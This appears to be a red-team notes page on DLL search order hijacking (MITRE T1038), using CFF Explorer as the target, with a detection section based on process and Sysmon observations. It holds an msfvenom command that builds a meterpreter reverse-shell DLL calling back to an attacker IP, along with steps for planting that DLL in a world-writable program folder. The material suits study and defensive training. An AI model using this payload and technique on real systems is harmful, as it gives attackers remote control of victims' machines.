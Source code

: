 ```yaml
---
description: 'DLL Search Order Hijacking for privilege escalation, code execution, etc.'
---
```


# T1038: DLL Hijacking

## Execution

Generating a DLL that will be loaded and executed by a vulnerable program which connect back to the attacking system with a meterpreter shell:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```csharp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 -f dll > evil-meterpreter64.dll
```
{% endcode-tabs-item %}
{% endcode-tabs %}

To illustrate this attack, we will exploit our beloved tool `CFF Explorer.exe` . Once the program is executed, it attempts to load `CFF ExplorerENU.dll` from the location the program is installed to, however that DLL cannot be loaded \(note the NAME NOT FOUND\) as it does not exist in the given path:

![](../.gitbook/assets/dll-missing.png)

Luckily for the attacker, the location in which the DLL is being looked for - is world writable! Let's move our evil DLL `evil-meterpreter64.dll` to `C:\Program Files\NTCore\Explorer Suite` and rename it to `CFF ExplorerENU.dll` 

![](../.gitbook/assets/dll-moved.png)

Launching the program again gives different results - DLL is found \(SUCCESS\):

![](../.gitbook/assets/dll-success.png)

which is good news for the attacker - the DLL code gets executed, which gives attacker a meterpreter shell:

![](../.gitbook/assets/dll-shell.png)

## Observations

On the victim system, we can only see rundll32 with no associated parent process and established connection - this should raise your suspicion immediately:

![](../.gitbook/assets/dll-rundll.png)

Looking at the rundll32 image info, we can see the current directory, which is helpful:

![](../.gitbook/assets/dll-noparent.png)

Looking at the sysmon logs gives us a better understanding of what happened - CFF Explorer.exe was started as a process `4856` which then kicked off a rundll32 \(`1872`\) which then established a connection to 10.0.0.5:

![](../.gitbook/assets/dll-logs.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1038" %}

{% embed url="https://pentestlab.blog/2017/03/27/dll-hijacking/" %}

  


